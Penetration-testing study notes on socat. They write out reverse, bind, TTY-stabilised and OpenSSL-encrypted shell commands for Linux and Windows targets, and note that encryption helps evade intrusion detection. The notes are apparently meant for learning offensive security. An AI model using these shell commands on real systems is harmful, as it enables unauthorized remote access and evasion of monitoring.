 ```yaml
---
tags:
  - Tool
---
```

Socat is like [[Netcat]] on steroids. It can do all of the same things, and many more. Socat [[Shells]] are usually more stable than netcat shells out of the box. In this sense it is vastly superior to netcat; however, there are two big catches:

- The syntax is more difficult
- Netcat is installed on virtually every Linux distribution by default. Socat is very rarely installed by default.

Both Socat and Netcat have .exe versions for use on Windows.

### Reverse Shells

The syntax for socat gets a lot harder than that of netcat. Here's the syntax for a basic reverse shell listener in socat:

```bash
socat TCP-L:<port> -
```

As always with socat, this is *taking two points* (a listening port, and standard input) and connecting them together. The resulting shell is unstable, but this will work on either Linux or Windows and is equivalent to `nc -lvnp <port>`.

On Windows we would use this command to connect back:

```powershell
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```

The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.

This is the equivalent command for a Linux Target:

```bash
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```

### Bind Shells

On a Linux target we would use the following command:

`socat TCP-L:<PORT> EXEC:"bash -li"`

On a Windows target we would use this command for our listener:

`socat TCP-L:<PORT> EXEC:powershell.exe,pipes`

Regardless of the target, we use this command on our attacking machine to connect to the waiting listener.

```bash
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```

### Stabilised Shells

This will only work when the target is Linux, but is significantly more stable. As mentioned earlier, socat is an incredibly versatile tool; however, the following technique is perhaps one of its most useful applications. Here is the new listener syntax:

```bash
socat TCP-L:<port> FILE:`tty`,raw,echo=0
```

Let's break this command down into its two parts. As usual, we're connecting two points together. In this case those points are a *listening port, and a file*. Specifically, we are passing in the current TTY as a file and setting the echo to be zero. This is approximately equivalent to using the` Ctrl + Z`, `stty raw -echo; fg` trick with a netcat shell -- with the added bonus of being immediately stable and hooking into a full tty.

The first listener can be connected to with any payload; however, this special listener must be activated with a very specific socat command. This means that the *target must have socat installed*. Most machines do not have socat installed by default, however, it's possible to upload a precompiled socat binary, which can then be executed as normal.

The special command is as follows:

```bash
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

This is a handful, so let's break it down.

The first part is easy -- we're linking up with the listener running on our own machine. The second part of the command creates an interactive bash session with  `EXEC:"bash -li`". We're also passing the arguments: `pty`, `stderr`, `sigint`, `setsid` and `sane`:

- `pty`, allocates a pseudoterminal on the target -- part of the stabilisation process
- `stderr`, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
- `sigint`, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
- `setsid`, creates the process in a new session
- `sane`, stabilises the terminal, attempting to "normalise" it.

### Encrypted Shells

One of the many great things about socat is that it's capable of creating encrypted shells -- both bind and reverse. Why would we want to do this? Encrypted shells *cannot be spied on* unless you have the decryption key, and are *often able to bypass an IDS* as a result.

We first need to *generate a certificate* in order to use encrypted shells. This is easiest to do on our attacking machine:

```bash
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```

This command creates a **2048 bit RSA key** with matching cert file, self-signed, and valid for just under a year. When you run this command it will ask you to fill in information about the certificate. This can be left blank, or filled randomly.

We then need to *merge the two* created files into a single `.pem` file:

```bash
cat shell.key shell.crt > shell.pem
```

Now, when we set up our reverse shell listener, we use:

```bash
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```

This sets up an *OPENSSL listener* using our generated certificate. `verify=0` tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority. Please note that the **certificate must be used on whichever device is listening**.

To connect back, we would use:

```bash
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```

The same technique would apply for a bind shell:

Target:

```bash
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
```

Attacker:

```bash
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
```
